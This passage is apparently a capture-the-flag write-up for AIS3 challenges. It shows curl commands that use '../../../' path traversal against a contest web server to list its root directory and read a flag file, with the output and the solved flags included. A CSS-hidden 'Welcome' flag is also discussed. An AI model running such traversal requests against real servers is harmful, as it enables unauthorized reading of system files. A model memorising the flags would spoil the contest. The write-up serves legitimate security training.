 (i didn't know i could just inspect the receipt after scanning so i just bruted around 30 wrong flags LOL)

## AIS3 Tiny Server - Web/Misc
we are given a modified ver. of [7890/tiny-web-server](https://github.com/7890/tiny-web-server) that basically just lists directory files\
on the page /index.html reads:
> Hidden secrets lie above so high,\
> Where root directory holds treasures you can spy.\
> File inclusion shows the way,\
> To read the flag without delay.

if we go to / we'll be greeted with:
```
index.html	2025-05-22 16:22	4.7K
```
nice! directory traversal\
the rest is trivial:
```zsh
❯ curl --path-as-is http://chals1.ais3.org:20366/../../../
...
<tr><td><a href="home/">home/</a></td><td>2022-04-18 10:28</td><td>[DIR]</td></tr>
<tr><td><a href="boot/">boot/</a></td><td>2022-04-18 10:28</td><td>[DIR]</td></tr>
<tr><td><a href="readable_flag_ZfIcOW4iawUOxB6SFrkC0pGfn506zipy">readable_flag_ZfIcOW4iawUOxB6SFrkC0pGfn506zipy</a></td><td>2025-05-30 05:18</td><td>54</td></tr>
<tr><td><a href=".dockerenv">.dockerenv</a></td><td>2025-05-30 05:18</td><td>0</td></tr>
<tr><td><a href="readflag">readflag</a></td><td>2025-05-22 16:22</td><td>884.1K</td></tr>
❯ curl --path-as-is http://chals1.ais3.org:20366/../../../readable_flag_ZfIcOW4iawUOxB6SFrkC0pGfn506zipy
AIS3{tInY_we8_S3rV3R_wiTH_fIle_8r0Ws1n9_4S_@_Fe4TUre}
```
flag: **`AIS3{tInY_we8_S3rV3R_wiTH_fIle_8r0Ws1n9_4S_@_Fe4TUre}`**

## Welcome
> Copy & Paste ?\
> You don't know how to copy & paste ???\
> Let me teach you : Ctrl + c & Ctrl + v 😮‍💨😮‍💨😮‍💨

tfw every single character is wrapped in a span\
surely we just select from below, ctrl+c then clean!\
![](images/welcome.png)\
copied: `AIS3{This_Is_Just_A_Fake_Flag_~~}`\
just kidding! its in the content of the ::before pseudo-elements\